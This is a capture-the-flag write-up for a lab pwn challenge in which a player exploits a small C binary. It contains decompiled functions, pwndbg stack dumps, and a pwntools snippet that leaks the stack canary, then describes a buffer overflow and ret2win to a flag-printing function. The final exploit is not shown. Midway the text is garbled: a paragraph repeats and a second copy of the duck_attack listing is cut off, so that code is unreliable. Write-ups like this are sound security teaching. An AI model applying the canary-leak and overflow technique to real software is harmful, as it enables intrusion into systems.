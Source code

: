 # Enumeration

First of all, we start with a `checksec`:  

![Screenshot from 2025-03-27 00-38-37](https://github.com/user-attachments/assets/3920eca5-f740-4ad0-ad07-975e511cdbbb)



### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}

```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```

As we can see, there are 2 buffers, `buf[4]` and `v3[11]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

Our first input goes to `buf` and we get a leak of `v1 + 32`. That means we can leak up to `32` from the end of the buffer 
where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset when debug.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  return v3 - __readfsqword(0x28u);
}
```

### Debugging 

Now, to prove all this theory we can check the debugging. Running the program and adding 8 "A". After `read`, we see the status of `$rsi`.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdd80:	0x4141414141414141	0x000000000000000a // 0x10
0x7fffffffdd90:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffdda0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x60
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x70
0x7fffffffddf0:	0x0000000000000000	0x5c9f27b935a3ab00 // 0x80
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x5c9f27b935a3ab00
```
![image](https://github.com/user-attachments/assets/543c1298-bbd7-4150-92b8-1616e78584cb)

We see that the canary lies at `0x80` from the start of the buffer. As we can leak up to `0x20` bytes, we can find out that we leak the canary address (7 bytes and adding the last 0 due to `read`) at `0x71` bytes.

```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After that, we need to calculate where we start to write our second input and check the `canary` and `return address` offsets.

```gdb
pwndbg> x/20gx $rsi
0x7fffffffdda0:	0x0000000a42424242	0x0000000000000000 // 0x10
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000 // 0x20
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000 // 0x30
0x7fffffffddd0:	0x0000000000000000	0x0000000000000000 // 0x40
0x7fffffffdde0:	0x0000000000000000	0x0000000000000000 // 0x50
0x7fffffffddf0:	0x0000000000000000	0x4d559fb679f97c00 // 0x60
0x7fffffffde00:	0x00007fffffffde20	0x000000000040162a
0x7fffffffde10:	0x0000000000000000	0x4d559fb679f97c00
0x7fffffffde20:	0x0000000000000001	0x00007ffff7c29d90
0x7fffffffde30:	0x0000000000000000	0x0000000000401605
```

We see that the `canary` is at `0x58` bytes from the start of the second buffer. Then a dummy address and then the `return address`. Knowing all this and the address of `duck_attack()`, we can craft our exploit.

# Solution


Flag --> HTB{XXX}

